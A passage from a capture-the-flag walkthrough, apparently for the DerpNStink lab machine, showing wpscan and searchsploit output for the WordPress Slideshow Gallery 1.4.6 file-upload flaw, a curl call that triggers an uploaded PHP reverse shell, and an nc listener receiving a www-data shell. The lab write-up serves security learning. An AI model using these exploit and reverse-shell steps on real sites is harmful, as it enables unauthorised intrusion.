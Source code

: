     [+] Finished: Thu Nov 25 09:46:04 2021
    [+] Requests Done: 20015
    [+] Cached Requests: 8
    [+] Data Sent: 10.488 MB
    [+] Data Received: 12.602 MB
    [+] Memory used: 263.031 MB
    [+] Elapsed time: 00:04:23


==> Slideshow Gallery 1.4.6 <http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt>


# Exploit wpscan plugin slideshow gallery 1.4.6 with admin/admin


## Web shell
    
    └─$ searchsploit  Slideshow Gallery 1.4.6
    ----------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                               |  Path
    ----------------------------------------------------------------------------- ---------------------------------
    WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload             | php/webapps/34514.txt
    WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload             | php/webapps/34681.py
    ----------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results


==> Use _Burp Suite_ to upload the shell.


    curl -s http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/php-reverse-shell.php

    $ nc -lvp 1234                                           
    listening on [any] 1234 ...
    connect to [192.168.56.1] from derpnstink.local [192.168.56.9] 35752
    Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
     08:22:14 up  6:30,  1 user,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    stinky   pts/4    192.168.56.1     04:11   10:14   0.49s  0.01s sshd: stinky [priv] 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


## Get informations
